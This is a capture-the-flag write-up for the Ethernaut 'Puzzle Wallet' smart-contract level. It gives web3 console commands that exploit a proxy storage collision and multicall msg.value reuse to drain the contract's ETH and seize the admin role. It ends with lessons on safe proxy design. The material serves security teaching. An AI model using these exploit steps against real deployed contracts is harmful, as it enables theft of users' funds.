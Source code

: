 # Challenge Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.

Things that might help:
- Understanding how *delegatecall* works and how *msg.sender* and *msg.value* behaves when performing one.
- Knowing about proxy patterns and the way they handle storage variables.

# Need to know
- [Proxy](note.md/#proxy)
- [Storage layout mistakes](note.md/#storage)
- [How multicall function work](./24-attackPuzzleWallet.sol)

# How to do
Exploit *pendingAdmin* slot with Player address <> Owner

**Console**
1. add functionSignature to ABI

```ruby
functionSignature = {
  name: 'proposeNewAdmin',
  type: 'function',
  inputs: [
    {
      type: 'address',
      name: '_newAdmin'
    }
  ]
}
params = [player]
data = web3.eth.abi.encodeFunctionCall(functionSignature, params)
'0xa63767460000000000000000000000006507a5f34d98b8345e182ef588ab14a7f4e714ae'
await web3.eth.sendTransaction({from: player, to: instance, data})
```

1. now we on pendingAdmin ,so we can add *player* to whitelist for *player* can call all functions that have *onlyWhitelisted* modifier

```ruby
await contract.addToWhitelist(player)
```

1. deposit() method

```ruby
depositData = await contract.methods["deposit()"].request().then(v => v.data)
'0xd0e30db0'
```
1. multicall() method with param of deposit function call signature

```ruby
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
'0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000'
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
```
1. getBalance()

```ruby
await getBalance(contract.address)
'0.002'
```

1. call execute() for deposit all money to *player*

```ruby
await contract.execute(player, toWei('0.002'), 0x0)
await getBalance(contract.address)
'0'
```

1. We can call setMaxBalance() because contract.balance = 0
1. call setMaxBalance() to change maxBalance(slot1) but it will change admin(slot 1) to *player* because it have the same storage slot1

```ruby
await contract.setMaxBalance(player)
```

# Result

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, *msg.value* will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple *delegatecalls* to a function that looks safe on its own could lead to unwanted transfers of ETH, as *delegatecalls* keep the original *msg.value* sent to the contract.

Move on to the next level when you're ready!
